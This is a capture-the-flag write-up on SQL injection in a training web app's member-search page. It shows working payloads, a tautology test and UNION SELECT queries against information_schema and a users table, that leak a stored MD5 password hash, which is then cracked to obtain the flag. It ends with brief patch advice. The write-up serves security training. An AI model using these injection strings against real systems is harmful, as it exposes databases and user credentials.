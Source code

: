 # [SQL_Injection](https://owasp.org/www-community/attacks/SQL_Injection)

## WriteUp
On the `member` page, there is a prompt that allows us to search for a user within the database by specifying their ID. Entering a number between 1 and 4 displays the first and last name of the user on the webpage.

Checking for Sql injections, we can pass the prompt `1 OR 1 = 1`. This causes all members to be displayed, meaning we can preform SQL Injections on the database. To gather data on the all the tables within the database and their columns, let use the prompt `1 OR 1 = 1 UNION SELECT table_name,column_name FROM information_schema.columns`.

This causes the webapp to render out all tables within the database and their colums, here is a simplified view:
``` ts
db = {
	"db_default": {
		"id": number,
		"username": string,
		"password": string,
	},
	"users": { // members
		"user_id": number,
		"first_name": string,
		"last_name": string,
		"town": string,
		"country": string,
		"planet": string,
		"Commentaire": string, 
		"coubtersign": string, // md5 hash
	},
	"guestbook": { //
		"id_comment": number,
		"comment": string,
		"name": string,
	},
	"list_images": { // Images
		"id": number,
		"url": string,
		"title": string,
		"comment": string,
	},
	"vote_dbs": {
		"vote": any, // I have no idea
		"nb_vote": number,
		"subject": string,
	},
}
```

Using `1 UNION SELECT first_name,%colunm% FROM users`, where `%column%` is a column in `users`, we can leak all the colunms for each user in `users`. We get the folowing user that looks interesting:
``` json
{
  "users": { // members
    "user_id": 4,
	"first_name": "Flag",
	"last_name": "Get The",
	// ...
	"Commentaire": "Decrypt this password -> then lower all the char. Sh256 on it and it's good !", 
	"coubtersign": "5ff9d0165b4f92b14994e5c685cdce28", // md5 hash
  },
}
```

Decripting the password with an [MD5 decryptor](https://md5decrypt.net/en/#answer), we get the password `FortyTwo`, getting the Sha256 of `fortytwo` nets us the flag.

## Possible Patches
Sanitizing your input and parameterizing your input is the best way to prevent sql injections. By removing/encoding dangerous characters you can prevent injections from happening.
